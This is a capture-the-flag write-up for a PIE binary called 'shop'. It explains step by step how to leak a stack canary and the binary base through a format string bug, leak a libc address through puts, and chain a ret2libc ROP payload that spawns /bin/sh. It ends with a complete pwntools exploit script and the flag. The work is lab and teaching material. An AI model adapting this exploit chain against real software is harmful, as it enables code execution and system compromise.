 # Challenge Description

Do you hear, about ASLR and stack canary!!!

This is the privesc part of our PFA project,
if you solve it you are 1337 hacker
Author: YasseX

# Challenge Overview

This CTF is about bypassing ASLR and stack canaries to achieve a ret2libc attack.

To solve the challenge, we need to:
	-Leak a stack canary and the program base address (to bypass ASLR) using a format string vulnerability.
	-Leak a libc address (via puts) to calculate the libc base address.
	-Execute a ret2libc attack to spawn a shell (/bin/sh).

Step-by-Step Exploit

#1. Leaking main address and stack canary (Format String Attack)

First, we abuse a format string vulnerability to leak two important values:
The address of the main function (to calculate the binary base address and defeat ASLR).
The value of the stack canary (to bypass the stack protector).
io.sendline(b'%17$p.%13$p')

This sends a format string payload.
We then parse the output:
leak_line = io.recvline().strip()
main_str, canary_str = leak_line.split(b'.')
main = int(main_str, 16)
canary = int(canary_str, 16)

From here:

main gives us the base address of the binary.
canary is the random stack canary value protecting the stack.

#2. Calculating Important Addresses
Since the binary is position-independent (PIE enabled), we calculate actual addresses by knowing the offsets:
binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

This allows us to find:

getchar (in GOT)
puts (in PLT)
pop rdi; ret gadget
ret gadget (for stack alignment if needed)

#3. Leaking a libc address
Next, we prepare a payload to leak the real address of getchar in libc using puts:
payload = b'Y' * 104
payload += p64(canary)
payload += b'Y' * 8
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

This sends the address of getchar to stdout using puts, allowing us to calculate the libc base address.

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))
libc_base = getchar_libc - getchar_libc_offset

#4. Final ret2libc Attack
With the libc base address known, we can find:

system function
/bin/sh string

system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

Finally, we craft the final payload:
payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

This calls system("/bin/sh"), giving us a shell!


#Here is the full exploit used to solve the challenge:

from pwn import *

context.binary = 'shop'
elf = ELF('shop')
rop = ROP(elf)
io = process()


main_offset = 0x11e0
puts_plt_offset = 0x1040
getchar_got_offset = 0x4030
getchar_libc_offset = 0x86380
bin_sh_offset = 0x1a7e43
system_offset = 0x528f0
pop_rdi_offset = 0x11cc
ret_offset = 0x1016

io.sendline(b'%17$p.%13$p')
io.recvuntil(b'Welcome, ')

leak_line = io.recvline().strip()

main_str, canary_str = leak_line.split(b'.')

main = int(main_str, 16)
canary = int(canary_str, 16)

print('the main functions is : ',hex(main))
print('the canary is : ',hex(canary))

binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'YYYYYYYY'
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

io.recvuntil(b"------------------------------------------------")
io.recvline()
io.recvline()

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))

libc_base = getchar_libc - getchar_libc_offset
system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

print("libc base : ",hex(libc_base))
print("system : ",hex(system_address))
print("/bin/sh : ",hex(bin_sh_address))


io.sendline(b'yassine')
sleep(0.1)
io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

io.sendline(payload)

io.interactive()


#Summary

Step			Purpose
Format String Leak	Leak main address and canary
Calculate Binary Base	To defeat PIE and ASLR
Leak Libc Address	Leak getchar and calculate libc base
ret2libc		Call system("/bin/sh") for a shell


#flag : SECOPS{r3t2libc_1s_v3ry_c00l_att4ck}
